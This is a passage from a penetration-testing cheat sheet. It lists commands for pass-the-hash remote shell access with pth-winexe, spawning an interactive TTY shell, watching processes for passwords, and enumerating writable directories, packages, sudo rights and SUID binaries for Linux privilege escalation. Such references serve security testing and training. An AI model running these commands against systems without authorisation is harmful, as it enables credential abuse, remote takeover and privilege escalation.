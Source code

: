 #### **Using Pass-the-Hash with WinExe**

```bash
pth-winexe -U <domain>/Administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe //<IP> cmd.exe  
```

* * *

### Linux Privilege Escalation

#### **Spawning a TTY Shell**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'  
/bin/bash -i  
```

#### **Finding Writable Directories**

```bash
find / -writable -type d 2>/dev/null  
```

#### **Checking Installed Packages (Potential Exploits)**

```bash
dpkg -l  # Debian-based  
rpm -qa  # Red Hat-based  
```

#### **Checking Mounted Drives & Filesystems**

```bash
cat /etc/fstab  
lsblk  
df -h  
```

#### **Checking Running Processes for Passwords**

```bash
watch -n 1 "ps aux | grep pass"  
```

* * *

### Sudo and SUID Exploitation

#### **Checking Sudo Permissions**

```bash
sudo -l  
```

#### **Finding SUID Binaries**

```bash
find / -perm -u=s -type f 2>/dev/null  
```
